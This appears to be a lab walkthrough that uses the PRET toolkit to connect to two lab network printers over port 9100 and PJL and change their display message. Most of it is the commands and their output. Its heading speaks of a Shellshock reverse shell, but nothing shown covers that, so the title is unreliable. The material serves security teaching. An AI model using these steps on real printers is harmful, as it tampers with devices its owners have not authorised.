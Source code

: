 ## Getting a Reverse Shell via Shellshock Attack

### Background

Why printer hacking: read this article first:
https://www.theverge.com/2018/11/30/18119576/pewdiepie-printer-hack-t-series-youtube

### Setup

One VM only.

### Steps

Pret stands for PRinter Exploitation Toolkit.

1. get the source code from github:

```console
git clone https://github.com/RUB-NDS/PRET
```

2. go inside the PRET directory:

```console
cd PRET
```

3. install necessary modules:

```console
sudo pip install colorama pysnmp
```

4. select a targeted printer (IP: either 10.29.2.31, or 10.29.2.45), test if the printer has port 9100 open: 

```console
telnet printerIP 9100 (You will see "Connection refused" if not open)
```

5. Now that you are in the PRET directory, run the script to establish a connection between you and the printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.31 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.31 established
Device:   HP LaserJet M606

Welcome to the pret shell. Type help or ? to list commands.
10.29.2.31:/> 
```

Or the other printer:

```console
[05/18/22]seed@VM:~/PRET$ ./pret.py 10.29.2.45 pjl
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to 10.29.2.45 established
Device:   Receiving data failed (watchdog timeout)
                        
Welcome to the pret shell. Type help or ? to list commands.
10.29.2.45:/> 
```

6. Change the display message: 

```console
10.29.2.31:/> display Game Over
Setting printer's display message to "Game Over"
```

```console
10.29.2.45:/> display Game Over
Setting printer's display message to "Game Over"
```

This will change the printer display message to "Game Over...".

7. You can then type quit to exit:

```console
10.29.2.31:/> quit
```

or

```console
10.29.2.45:/> quit
```
